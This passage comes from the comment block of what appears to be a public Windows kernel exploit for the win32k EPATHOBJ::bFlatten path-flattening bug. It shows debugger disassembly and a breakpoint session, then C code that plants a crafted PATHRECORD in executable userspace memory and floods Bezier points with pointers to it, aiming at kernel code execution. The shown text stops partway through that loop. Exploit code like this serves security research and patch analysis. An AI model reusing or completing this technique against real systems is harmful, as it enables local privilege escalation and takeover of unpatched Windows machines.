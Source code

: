 //   kd&gt; u win32k!EPATHOBJ::bFlatten
//   win32k!EPATHOBJ::bFlatten:
//   95c92517 8bff            mov     edi,edi
//   95c92519 56              push    esi
//   95c9251a 8bf1            mov     esi,ecx
//   95c9251c 8b4608          mov     eax,dword ptr [esi+8]
//   95c9251f 85c0            test    eax,eax
//   95c92521 7504            jne     win32k!EPATHOBJ::bFlatten+0x10 (95c92527)
//   95c92523 33c0            xor     eax,eax
//   95c92525 5e              pop     esi
//   kd&gt; u
//   win32k!EPATHOBJ::bFlatten+0xf:
//   95c92526 c3              ret
//   95c92527 8b4014          mov     eax,dword ptr [eax+14h]
//   95c9252a eb14            jmp     win32k!EPATHOBJ::bFlatten+0x29 (95c92540)
//   95c9252c f6400810        test    byte ptr [eax+8],10h
//   95c92530 740c            je      win32k!EPATHOBJ::bFlatten+0x27 (95c9253e)
//   95c92532 50              push    eax
//   95c92533 8bce            mov     ecx,esi
//   95c92535 e860fdffff      call    win32k!EPATHOBJ::pprFlattenRec (95c9229a)
//
//   So at 95c9252c eax is ppr-&gt;next, and the routine checks for the PD_BEZIERS
//   flags (defined in winddi.h). Let's break if it's in userspace:
//
//   kd&gt; ba e 1 95c9252c "j (eax &lt; poi(nt!MmUserProbeAddress)) 'gc'; ''"
//   kd&gt; g
//   95c9252c f6400810        test    byte ptr [eax+8],10h
//   kd&gt; r
//   eax=41414140 ebx=95c1017e ecx=97330bec edx=00000001 esi=97330bec edi=0701062d
//   eip=95c9252c esp=97330be4 ebp=97330c28 iopl=0         nv up ei pl nz na po nc
//   cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010202
//   win32k!EPATHOBJ::bFlatten+0x15:
//   95c9252c f6400810        test    byte ptr [eax+8],10h       ds:0023:41414148=??
//
//   The question is how to turn that into code execution? It's obviously trivial to
//   call prFlattenRec with our userspace PATHRECORD..we can do that by setting
//   PD_BEZIER in our userspace PATHRECORD, but the early exit on allocation failure
//   poses a problem.
//
//   Let me demonstrate calling it with my own PATHRECORD:
//
//       // Create our PATHRECORD in userspace we will get added to the EPATHOBJ
//       // pathrecord chain.
//       PathRecord = VirtualAlloc(NULL,
//                                 sizeof(PATHRECORD),
//                                 MEM_COMMIT | MEM_RESERVE,
//                                 PAGE_EXECUTE_READWRITE);
//
//       // Initialise with recognisable debugging values.
//       FillMemory(PathRecord, sizeof(PATHRECORD), 0xCC);
//
//       PathRecord-&gt;next    = (PVOID)(0x41414141);
//       PathRecord-&gt;prev    = (PVOID)(0x42424242);
//
//       // You need the PD_BEZIERS flag to enter EPATHOBJ::pprFlattenRec() from
//       // EPATHOBJ::bFlatten(), do that here.
//       PathRecord-&gt;flags   = PD_BEZIERS;
//
//       // Generate a large number of Bezier Curves made up of pointers to our
//       // PATHRECORD object.
//       for (PointNum = 0; PointNum &lt; MAX_POLYPOINTS; PointNum++) {
//           Points[PointNum].x      = (ULONG)(PathRecord) &gt;&gt; 4;
//           Points[PointNum].y      = (ULONG)(PathRecord) &gt;&gt; 4;
//           PointTypes[PointNum]    = PT_BEZIERTO;